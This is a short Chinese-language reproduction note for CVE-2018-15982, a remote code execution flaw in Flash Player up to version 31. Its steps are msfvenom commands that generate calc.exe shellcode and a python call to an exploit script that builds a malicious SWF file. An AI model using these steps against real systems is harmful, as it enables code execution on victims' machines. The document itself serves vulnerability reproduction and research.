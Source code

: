 # CVE-2018-15982 REC

_影响软件_
+ Flash Player

_影响版本_
+ =< 31.x


## 复现

` 
    msfvenom -p windows/exec cmd=calc.exe -f raw > 86.bin

    msfvenom -p windows/x64/exec cmd=calc.exe -f raw > 64.bin

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o apt.swf
`
